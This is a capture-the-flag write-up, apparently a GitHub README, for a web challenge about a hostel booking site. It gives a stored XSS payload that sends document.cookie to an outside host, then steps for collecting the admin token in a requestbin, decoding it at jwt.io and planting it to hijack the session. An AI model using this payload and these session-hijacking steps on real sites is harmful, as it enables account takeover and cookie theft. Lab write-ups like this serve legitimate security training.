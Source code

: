 #### NOTE: The challenge is a bit buggy and will produce the final flag some times, and in other times you will have to repeat the cookie manipulation part multiple times
# Booking
## Challenge Description:
On your last vacation day in the "Wild Moose Hostel", the hostel's manager heard you discussing your full-time job as a penetration tester with other guests.<br>
She offered you to stay an additional night, free of charge, in exchange for assistance regarding a suspicion they have based on a security issue.<br>
According to her, they noticed several logins to their admin accounts at late hours, which none of the actual admins could confirm as valid.<br>

#### Your goals<br>
☛ Find the vulnerable functionality on the web application.<br>
☛ Find a way to compromise an admin account.<br>
☛ Gain access to the hostel's admin panel.<br>


## Process:
Create an account. The credentials don't matter all that much, just remember them.<br>
After creating an account, sign in and go to 'My Moose'.<br>
Scroll down to the 'Contact Us' section.<br>
Go to this site in a different tab: https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md<br>
<br>
Copy the following snippet of code and paste it into the text box in the original site.
<imgsrc=xonerror=this.src='http://192.168.0.18:8888/?'+document.cookie;><br>

https://pipedream.com/requestbin<br>
Create a public bin and paste the link you got into the src of the code above<br>
Send the message and check for the token in the requested bin<br>
Go to https://jwt.io/ and translate the Bearer<br>
Use the 'cookie editor' extension or access the cookies though the 'Application' tab in the 'inspect' of the site.<br>
Paste the bearer value and save<br>
